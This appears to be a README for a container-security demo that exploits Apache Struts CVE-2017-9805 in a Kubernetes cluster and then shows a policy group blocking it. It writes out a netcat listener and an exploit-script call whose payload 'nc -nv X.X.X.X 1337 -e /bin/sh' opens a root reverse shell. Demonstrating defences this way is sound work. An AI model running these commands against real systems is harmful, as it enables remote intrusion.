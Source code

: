 # Remote shell - struts exploit

This demo creates a remote shell using the Apache Struts CVE-2017-9805 Exploit

## Prep
make sure you have the following two variables set in  your `terraform.tfvars`.
```
install_guestbook = true
install_order     = true
```

The run
```
terraform apply
```

Make sure that you are using a `kubeconf` file that have access to default namespace in the demo cluster, you could use the `kubeconf` created when you ran the `terraform apply` command·
```
export KUBECONFIG=$(pwd)/kubeconf
```

## Demo
1. login to the super-app application, the link to the web app is provided in the `terrarom output`, and generate some traffic by refreshing the page, create a order, delete an order.

2. validate the policy group `nv.struts-orders.default` processes and network rules

3. put the policy group `nv.struts-orders.default` in `monitor mode`

4. note the ClusterIP for the kali workload
```
kubectl get service/kali-kali
```

5. open a terminal and create a reverse shell in the kali pod
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- nc -lvp 1337
```

6. open another terminal and execute the RCE payload in the kali workload
```
kubectl exec -it $(kubectl get pods --selector=app=kali-kali --template "{{range .items}}{{.metadata.name}}{{\"\n\"}}{{end}}") -- bash
python3 /payloads/struts-pwn2.py --exploit --url 'http://URL/super-app/orders/3' -c 'nc -nv X.X.X.X 1337 -e /bin/sh'
```
where `X.X.X.X` is the IP to the kali service you got in step 4
and the URL is the HOSTS of struts-orders ingress `kubectl get ingress struts-orders`

7. In the recerse shell type some commands, like prove you are root with `whoami`

8. Put the policy group `nv.struts-orders.default` in protect mode and see that it is now protected and it's no longer possible to execute commands in the reversed shell
